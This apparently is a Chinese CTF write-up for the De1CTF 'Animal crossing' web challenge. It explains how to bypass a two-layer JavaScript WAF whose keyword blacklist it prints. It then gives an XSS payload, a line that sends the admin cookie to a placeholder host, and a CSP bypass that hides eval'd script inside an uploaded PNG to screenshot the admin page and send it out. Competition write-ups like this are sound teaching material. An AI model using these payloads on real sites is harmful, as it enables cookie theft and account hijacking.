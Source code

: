 # Animal crossing write up

题目描述：

免费创建护照来展示你的岛屿！


## 第一关：绕过云WAF

云WAF通常有好几层好几种过滤手段，这里我也是设计了了两层防护

### 第一层：黑名单检测

```go
var blackList = []string{
	//global
	"document", "window", "top", "parent", "global", "this",
	//func
	"console", "alert", "log", "promise", "fetch", "eval", "import",
	//char
	"<", ">", "`", "\\*", "&", "#", "%", "\\\\",
	//key
	"if", "set", "get", "with", "yield", "async", "wait", "func", "for", "error", "string",
	//string
	"href", "location", "url", "cookie", "src",
}
```

黑名单的绕过思路无非避开被ban的字符串和字符，这里因为go的iris框架问题（看不出来是golang吧），导致`;`后的东西会被删掉，可以用%0a绕过

### 第二层：静态语法分析

```
1. 将data传入`fmt.Sprintf("'%s';", data)`，然后进行语法解析，这里parse失败直接ban
2. 接着遍历AST进行分析：
   1. VariableExpression/AssignExpression，所有声明语句/赋值语句直接ban
   2. CallExpression，所有函数调用的，且callee不为Identifier的直接ban
      1. ban：`test.test()`、`a[x]()`
      2. pass：`test()`
   3. BracketExpression，也就是成员引用，Member不为Identifier的直接ban，
      1. ban：`a[1]`、`a['xx']`
      2. pass：`a[x]`
```

这一层waf，其实只要摸清ban的套路，针对性找到没被处理的语法来绕过即可，这里我的预期解是用throw传递变量，但是还有很多其他能用的语法（事实证明确实有很多

预期解payload：

```js
data=base64code'%0atry{throw 'ev'%2b'al'}catch(e){try{throw frames[e]}catch(c){c(atob(data))}}%0a//
```

绕过WAF的两层防护之后本地能成功alert就可以用

```js
location.href = "http://xxxx/?" + btoa(ducument.cookie) 
```

打到管理员cookie了，cookie中包含一半的flag：

```
FLAG=De1CTF{I_l1k4_
```



## 第二关：读取400张图片

另外一半flag，题目给了hint：

```
管理员在做什么?
```

读取管理员的document，会发现有400多张png图片，flag就藏在这些图片当中，这里设计的时候预设了下面几种解法：

1. 绕过CSP引入截图库，截图后把图片传到/upload，获取图片地址回传，然后下载图片
2. 用for循环把400个图全部传到/upload，获取400个图片地址然后回传
3. 直接读取图片回传，可以是写脚本一张一张传，也可以是用for循环批量传，但是回传过程需要编码转换，传回去后也需要再转成图片进行拼接

三种方法有简单的也有复杂的，国外三支队伍用的都是第三种，把所有图片dump出去（我猜大佬们没发现/upload接口 23333），而国内的选手用的是解法2，下面我详细介绍下绕过CSP引入截图库的解法，其他的方法也是类似，就不全写出来了（感兴趣的可以去看解出来的大佬们的wp）。

### 绕过CSP引入截图库

本题的主要功能是制造动森护照，主页是有一个上传文件接口的，利用/upload接口，可以上传任意png后缀的文件，然后用fetch读这个png文件，再eval一下，就可以绕过CSP引入html2canvas库并且执行了，上传的png文件如下

```js
	...
  ...
html2canvas.js代码
	...
  ...

// 截图->上传到upload->外传图片地址
html2canvas(document.body).then(function(canvas) {
        const form = new FormData(),
        url = "/upload",
        blob = new Blob([canvas.toDataURL().toString()], {type : "image/png"})
        file = new File([blob], "a.png")
        form.append("file", file)
        fetch(url, {
            method: "POST",
            body: form
        }).then(function(response) {
            return response.json()
        }).then(function(data) {
            location.href="//xxxxxxxxx:8099/?"+data.data.toString()
        })
  })
```

这里我把截图操作的js也写到png里了，主要思路就是截图完用/upload传到服务器，获取返回的图片地址回传给攻击者

### 读取图片并执行

把图片用/upload接口上传后，获取png地址，再用可控的js部分去读取这个图片再执行即可

读取并执行的代码如下：

```js
fetch(`/static/images/xxxxxxxxx.png`).then(res=>res.text()).then(txt=>eval(txt))
```

用绕过第一关的办法包装一下就可以了



最后提交到bot就能接收到管理员界面截图的地址了，直接下载就能看到另一半flag了

```
cool_GamE}
```

最后flag：

```
De1CTF{I_l1k4_cool_GamE}
```


